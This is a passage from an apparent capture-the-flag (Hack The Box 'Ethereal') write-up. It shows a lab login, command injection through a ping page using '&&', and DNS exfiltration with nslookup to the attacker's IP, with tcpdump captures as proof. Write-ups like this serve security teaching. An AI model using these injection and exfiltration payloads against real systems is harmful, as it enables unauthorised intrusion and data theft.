 We can log in with:
- username: `alan`
- password: `!C414m17y57r1k3s4g41n!`

Note: We can guess the username since the name Alan is mentionned in the notes and in some of the password manager entries

![](/assets/images/htb-writeup-ethereal/web2.png)

### Command injection using ping page

We can run commands by adding `&& <command>` in the command field.

We can validate we got RCE by pinging ourselves with `127.0.0.1 && ping 10.10.14.23`.

The first IP is implicitely pinged by the script followed by our injected command after &&:

```
root@darkisland:~/hackthebox/Machines/Ethereal# tcpdump -nni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
14:30:51.029999 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 39, length 40
14:30:51.030129 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 39, length 40
14:30:52.046783 IP 10.10.10.106 > 10.10.14.23: ICMP echo request, id 1, seq 40, length 40
14:30:52.046814 IP 10.10.14.23 > 10.10.10.106: ICMP echo reply, id 1, seq 40, length 40
```

We can't run any other commands like `certutil.exe` or `powershell.exe`, AppLocker is probably enabled on the box.

However we can exfil some data by using `nslookup`.

For example, using the payload `127.0.0.1 && nslookup inject 10.10.14.23`, we get can get the box to do a query back to us:

```
root@darkisland:~# tcpdump -nni tun0 -vv port 53
tcpdump: listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
20:20:16.625986 IP (tos 0x0, ttl 127, id 8724, offset 0, flags [none], proto UDP (17), length 70)
    10.10.10.106.52125 > 10.10.14.23.53: [udp sum ok] 1+ PTR? 23.14.10.10.in-addr.arpa. (42)
20:20:18.652075 IP (tos 0x0, ttl 127, id 8726, offset 0, flags [none], proto UDP (17), length 52)
    10.10.10.106.52126 > 10.10.14.23.53: [udp sum ok] 2+ A? inject. (24)
20:20:20.922359 IP (tos 0x0, ttl 127, id 8727, offset 0, flags [none], proto UDP (17), length 52)
    10.10.10.106.52127 > 10.10.14.23.53: [udp sum ok] 3+ AAAA? inject. (24)
```
